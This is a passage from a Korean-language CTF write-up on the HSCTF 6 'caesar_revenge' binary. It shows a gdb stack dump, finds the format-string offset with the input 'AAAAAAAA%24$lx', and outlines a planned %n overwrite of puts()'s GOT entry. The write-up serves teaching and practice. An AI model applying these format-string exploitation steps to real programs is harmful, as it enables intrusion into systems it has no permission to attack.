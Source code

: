 shift key에 26을 넣으면 알파벳은 한 바퀴 돌아서 제자리로 돌아오기 때문에 평문이 변하지 않는다.

```bash
gdb-peda$ x/60gx $rsp
0x7fffffffddc0:	0x0000000000000002	0x800000000000000e
0x7fffffffddd0:	0x0000001a00000009	0x00007fffffffdde2
0x7fffffffdde0:	0x00000000000a3632	0x0000000000000000
0x7fffffffddf0:	0x0000000000000000	0x0000000000000000
0x7fffffffde00:	0x00007fffffffdee0	0x0000000000000000
0x7fffffffde10:	0x00007ffff7ffe738	0x0000000000000000
0x7fffffffde20:	0x0000000000000001	0x00007ffff7ffe710
0x7fffffffde30:	0x0000000000000000	0x000000006562b026
0x7fffffffde40:	0x00007ffff7ffea98	0x00007fffffffdf88
0x7fffffffde50:	0x4141414141414141	0x00007ffff7ff000a
0x7fffffffde60:	0x0000000000000000	0x00007ffff7de01ef
0x7fffffffde70:	0x0000000000000000	0x00007fffffffdfc0
0x7fffffffde80:	0x0000000000000000	0x0000000000000000
0x7fffffffde90:	0x0000000000000000	0x00007ffff7ffe710
0x7fffffffdea0:	0x00007ffff7b97787	0x00007ffff7a6f1bd
0x7fffffffdeb0:	0x00007fffffffdee0	0x00007ffff7dd0760
0x7fffffffdec0:	0x0000000000000d68	0x0000000000000001
0x7fffffffded0:	0x00007ffff7dd07e3	0x00007ffff7a70f51
0x7fffffffdee0:	0x00000000004020f0	0x00007ffff7dd0760
0x7fffffffdef0:	0x000000000000000a	0x00000000004020f0
0x7fffffffdf00:	0x00007ffff7dcc2a0	0x0000000000000000
0x7fffffffdf10:	0x0000000000000000	0x00007ffff7a71403
0x7fffffffdf20:	0x0000000000000025	0x00007ffff7dd0760
0x7fffffffdf30:	0x00000000004020f0	0x00007ffff7a64b62
0x7fffffffdf40:	0x00000000000000c2	0x0000000000000000
0x7fffffffdf50:	0x00007fffffffdf80	0x4eb51440eb110600
0x7fffffffdf60:	0x00007fffffffdf80	0x00000000004014b8
0x7fffffffdf70:	0x00007fffffffe060	0x000003e800000000
0x7fffffffdf80:	0x00000000004014c0	0x00007ffff7a05b97
0x7fffffffdf90:	0x0000000000000001	0x00007fffffffe068
```

버퍼는 `$rsp+0x50`부터 시작됨을 확인할 수 있다. 그러면 format string bug를 발생시켰을 때 `rsi`, `rdx`, `rcx`, `r8`, `r9` 부터 출력된 다음 스택에서 `rsp`에서부터 8바이트씩 출력되기 시작하여 19번째로 평문이 출력될 것이다. 즉, 24개의 서식 문자를 쓰면 버퍼에 접근할 수 있다. 확인해 보자.

```bash
gdb-peda$ r
Starting program: /home/chykor12/HSCTF 6/caesar_revenge 
Welcome to the Caesar Cipher Encoder!
Enter text to be encoded: AAAAAAAA%24$lx
Enter number of characters to shift: 26
Result: AAAAAAAA4141414141414141
```

정확히 우리가 원하는 위치의 값이 출력되었다.

---

이제 공격을 수행해 보자. 먼저 `puts()`의 GOT주소에 `caesar()`의 시작 주소를 넣을 것이다. 스택에 `puts()`의 GOT 주소를 적어 두고, 스택의 그 위치로 접근하여 `%n`을 사용하면 된다.
